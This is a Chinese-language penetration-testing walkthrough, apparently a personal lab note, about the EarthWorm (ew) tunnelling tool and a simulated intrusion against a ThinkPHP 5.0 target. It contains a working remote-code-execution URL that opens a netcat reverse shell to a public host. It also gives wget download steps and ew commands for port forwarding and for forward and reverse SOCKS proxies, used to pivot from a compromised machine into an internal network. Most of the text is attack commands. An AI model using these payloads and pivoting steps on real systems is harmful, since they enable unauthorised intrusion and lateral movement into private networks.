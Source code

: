 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口(公网向外转发的端口)
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口(公网接收端口)
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_Linux32 -s lcx_slave -d 45.*.*.190 -e 2222 -f 127.0.0.1 -g 6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
`./ew_for_Linux32 -s lcx_listen -l 443 -e 2222`


> 中间遇到的小插曲：不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口ew就不行，一切连接都显示正常，就是不回包，最后仔细检查一遍之后发现公网上的接收端口写反了，居然没有报错！！！

## 测试socks代理

### 打开正向socks V5代理(好像多了一种用工作室的网的方式)
`./ew_for_linux -s ssocksd -l 1080`
**附上终端设置socks代理的配置**
```
# 安装proxychains  kali自带 
cd /usr/local/src
git clone https://github.com/rofl0r/proxychains-ng.git
cd proxychains-ng 
./configure --prefix=/usr --sysconfdir=/etc
make && make install
make install-config
cd .. && rm -rf proxychains-ng
# 配置 
vi /etc/proxychains.conf
socks5  120.xx.xx.xx 1080
# 使用 命令前面加上proxychains
proxychains nmap 10.203.87.61
```

### 反向代理
- 现在公网服务器上
	`./ew_for_Linux32 -s rcsocks -l 1081 -e 8889`
> 1081就是攻击机要连接的端口，8889就是肉鸡连上来的端口 

- 肉鸡上执行
	`./ew_for_Linux32 -s rssocks -d 45.*.*.190 -e 8889`
> ip天公网IP端口和公网上的-e端口一致


# 然后再掏出一个